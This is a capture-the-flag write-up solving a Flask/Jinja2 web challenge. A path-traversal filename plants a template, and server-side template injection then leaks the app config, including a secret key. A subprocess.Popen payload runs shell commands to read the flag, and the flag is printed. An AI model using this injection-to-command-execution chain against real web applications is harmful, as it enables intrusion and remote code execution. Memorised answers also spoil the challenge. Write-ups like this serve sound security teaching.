


# Blame it on the Temp

## Challenge
* Category: Web Security
* Points: 150

We had our intern create this awesome new secure file storage app! http://challenge.acictf.com:44940

### Hints
* https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2
* https://werkzeug.palletsprojects.com/en/0.16.x/utils/#werkzeug.utils.secure_filename


## Solution

### Tools
* Burp Suite


Open a web browser and configure it to use Burp Suite. [Here](https://linuxconfig.org/learn-burp-suite-on-kali-linux-part-1) is a tutorial on setting up Burp Suite with a browser on a Kali machine. Once setup, go to http://challenge.acictf.com:44940 and see what we are working with. Notice there are two form on the page, meaning both of them make `POST` requests to the web application. This will be useful when performing injects later.
  * The `Upload` button where you upload a file is one of the forms
  * The `UPDATE` buttom where you can change the site TEMPLATE is the other form

Reading up on the jinja template injection link above, we know that `{{7*'7'}}` is a good test for injections. So we will start with a index.html that contains `{{7*'7'}}`.

Select our index.html and click uplaod. We then see our INDEX.HTML on the page, and if we open it, it shows us our template above. So our jinja inject did not work... yet.

Lets look at The TEMPLATE dropdown, and it has `Default` and `Non-Default` as options. So this is where knowledge of web-application directory structure comes in handy. Check out these two links
  * Django web app directory structure: https://django-project-skeleton.readthedocs.io/en/latest/structure.html
  * Flask web app directory structure: https://exploreflask.com/en/latest/organizing.html#package

Both of the platforms contain a `templates/` directory in the root directory of the web application. We are going to see if our app here follows the same structure by using directory traversal when uploading(POST) our index.html template. Here is a good resource on `web application directory traversal attack` https://owasp.org/www-community/attacks/Path_Traversal. That may have been a lot to digest, so let me break it down into steps.
  * Upload our index.html that contains a jinja template inject (ie `{{7*'7'}}`)
  * Use Burp Suite to intercep the `POST` and change the filename to include a web application directory traversal attack
  * Check the `TEMPLATES` dropdown on the page for our new template
  * Select our `test#` template and see if the jinja inject worked.


Ok. So upload our index.html again, but this time in Burp Suite modify the filename parameter with

```
filename="../../templates/test1/index.html"
```

Hazzah! We see a new TEMPLATE `test1` is available.



Go ahead and select it and we see our jinja template injection `{{7*'7'}}` worked!




Ok. So now lets try some of the other injects on the [github page from Hints](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2) to see if we can grab some configs and gain more information about the web application.

Put `{{config}}` into your index.html file and upload again. You may need to increment your directory names like `test2`

Excellent! We returned a bunch of config information.
```
<Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': 'geYUcdwQr6QDNQQUkEpgIaQJM7HcfSwl', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093, 'ALLOWED_EXTENSIONS': {'html', 'gif', 'pdf', 'png', 'jpg', 'jpeg', 'txt'}, 'APP_NAME': 'Super File Uploader', 'SQLALCHEMY_DATABASE_URI': 'sqlite:////opt/problems/blame-it-on-the-temp_1_cf71d51b80cc24fae6b96115fd06a288/app/app.db', 'SQLALCHEMY_TRACK_MODIFICATIONS': False, 'TEMPLATE': 'Default', 'UPLOAD_FOLDER': '/opt/problems/blame-it-on-the-temp_1_cf71d51b80cc24fae6b96115fd06a288/app/static/uploads/', 'SQLALCHEMY_BINDS': None, 'SQLALCHEMY_NATIVE_UNICODE': None, 'SQLALCHEMY_ECHO': False, 'SQLALCHEMY_RECORD_QUERIES': None, 'SQLALCHEMY_POOL_SIZE': None, 'SQLALCHEMY_POOL_TIMEOUT': None, 'SQLALCHEMY_POOL_RECYCLE': None, 'SQLALCHEMY_MAX_OVERFLOW': None, 'SQLALCHEMY_COMMIT_ON_TEARDOWN': False, 'SQLALCHEMY_ENGINE_OPTIONS': {}}>
```

Since django and flask both run on python, lets try to return a list of python classes to see what we are working with.
So put `{{ [].__class__.__base__.__subclasses__() }}` into your index.html and directory traversal to `test3`

Awesome, the output was a lot of python class information. You can see them in the text document located [here](./classes.txt)

Lets take note of one class in particular `<class 'subprocess.Popen'>`. Reading up on [python subprocess module](https://docs.python.org/3/library/subprocess.html) , you can figure out we can run a bash command using this python class. So our goal now is to run a bash command using our jinja template inject.

So lets give it a try with `ls -alh` to list the contents of the directory this class would run. We will do this by getting the index number of the subprocess.Popen class and this jinja payload. ``{{''.__class__.mro()[1].__subclasses__()[INDEX NUMBER]('ls -alh',shell=True,stdout=-1).communicate()[0].strip()}}``. I already did the work, and my index number is 287.

Lets give this a try and put `{{''.__class__.mro()[1].__subclasses__()[287]('ls -alh',shell=True,stdout=-1).communicate()[0].strip()}}` into our index.html file and directory traversal to `test5`

Cool. so it gave us the following:
```
b'total 100K\ndrwxr-x--- 4 hacksports blame-it-on-the-temp_1 4.0K Apr 23 14:55 .\nd-wx--x--x 702 root root 72K May 6 19:05 ..\ndrwxr-xr-x 4 root root 4.0K Apr 23 14:55 app\ndrwxr-xr-x 3 root root 4.0K Apr 23 14:55 migrations\n-rw-rw-r-- 1 hacksports hacksports 33 Apr 23 14:55 readme.flag\n-rw-rw-r-- 1 hacksports hacksports 19 Apr 23 14:55 server.py\n-rwxr-sr-x 1 hacksports blame-it-on-the-temp_1 105 Apr 23 14:55 xinet_startup.sh'
```

You can see a file in there called `readme.flag`.  Lets call the subprocess again with `cat readme.flag` as the payload.

Go ahead and put `{{''.__class__.mro()[1].__subclasses__()[287]('cat readme.flag',shell=True,stdout=-1).communicate()[0].strip()}}` into your index.html and upload it to `test6` directory.

Boom! theres our flag `b'ACI{ffbb3f2286cad7a4b85ae7250c5}'`


**ACI{ffbb3f2286cad7a4b85ae7250c5}**
